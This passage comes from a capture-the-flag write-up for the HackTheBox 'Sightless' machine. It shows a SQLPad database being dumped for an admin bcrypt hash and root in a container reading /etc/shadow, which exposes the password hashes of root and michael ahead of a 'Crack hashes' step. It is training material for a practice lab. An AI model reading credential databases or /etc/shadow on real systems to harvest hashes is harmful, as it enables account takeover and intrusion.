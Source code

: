```bash
CREATE TABLE `users` (`id` VARCHAR(255) UNIQUE PRIMARY KEY, `email` VARCHAR(255), `role` VARCHAR(255) NOT NULL, `name` VARCHAR(255), `passhash` VARCHAR(255), `password_reset_id` UUID UNIQUE, `data` JSON, `signup_at` DATETIME, `created_at` DATETIME NOT NULL, `updated_at` DATETIME NOT NULL, `disabled` TINYINT(1), `sync_auth_role` TINYINT(1), `ldap_id` VARCHAR(255));
CREATE UNIQUE INDEX `users_email` ON `users` (`email`) WHERE `email` IS NOT NULL;
CREATE UNIQUE INDEX `users_ldap_id` ON `users` (`ldap_id`) WHERE `ldap_id` IS NOT NULL;
sqlite> select email, passhash from users;
email                passhash
-------------------  ------------------------------------------------------------
admin@sightless.htb  $2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC
john@sightless.htb
```

Write hash to file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ cat loot/sqlpad.sqlite.hash
admin:$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC
```

#### /etc/shadow

- Saved to `loot/shadow`

```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$/Mo8R4wtiTNfTNVN$SMYyJjgjGl80eE8l3a.sphhbO3xidDQ/TtdAMXBHel09Taz9QAw8ItZQzrzivz9EPUU6EWXjVG1jGio23izss/:19999:0:99999:7:::
```

### Crack hashes

